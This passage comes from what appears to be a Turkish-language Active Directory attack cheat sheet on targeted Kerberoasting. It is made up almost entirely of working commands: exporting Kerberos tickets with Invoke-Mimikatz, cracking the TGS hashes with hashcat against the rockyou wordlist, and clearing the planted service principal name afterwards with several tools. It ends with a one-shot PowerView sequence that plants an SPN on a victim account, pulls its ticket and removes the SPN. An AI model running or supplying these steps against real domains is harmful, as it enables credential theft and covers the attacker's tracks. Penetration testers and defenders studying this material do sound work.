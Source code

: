 ##### Bileti Dışa Aktarma:
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Adım 6: TGS Hashini Kırma

##### Hashcat Kullanarak:
```bash
hashcat -m 13100 -a 0 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/T0XlC-insert_space_and_special_0_F.rule --force
```
veya:
```bash
hashcat -a 0 -m 13100 ticket.hashcat /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force
```
veya:
```bash
hashcat -a 0 -m 13100 hash ~/Downloads/Tools/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --force
```
veya:
```bash
hashcat -m 13100 krb5t_hash rockyou.txt --force
```

#### Cleanup İşlemleri

##### AD Modülü Kullanarak:
```powershell
Set-ADUser -Identity USER_NAME -ServicePrincipalNames @{Remove='DomainName/SomeUniqueName'} -Server steins.local
```

##### addspn.py Kullanarak:
```bash
python addspn.py steinsdc.local -u <USER_WITH_WRITE_PRIVS> --spn "DomainName/SomeUniqueName" --target TARGET_USERNAME --remove
```

##### PowerView Kullanarak:
```powershell
Set-DomainObject -Identity USER_NAME -Clear serviceprincipalname
```

##### AD Object Kullanarak:
```powershell
Set-ADObject -SamAccountName -PropertyName serviceprincipalname -ClearValue
```

#### Tek Komut ile İşlem

##### PowerView Kullanarak:
```powershell
Set-DomainObject -Identity USER_NAME -Set @{serviceprincialName = 'DomainName/SomeUniqueName'}
$User = Get-DomainUser USER_NAME
$User | Get-DomainSPNTicket | fl
$User | Select serviceprincipalname
Set-DomainObject -Identity USER_NAME -Clear serviceprincipalname
```

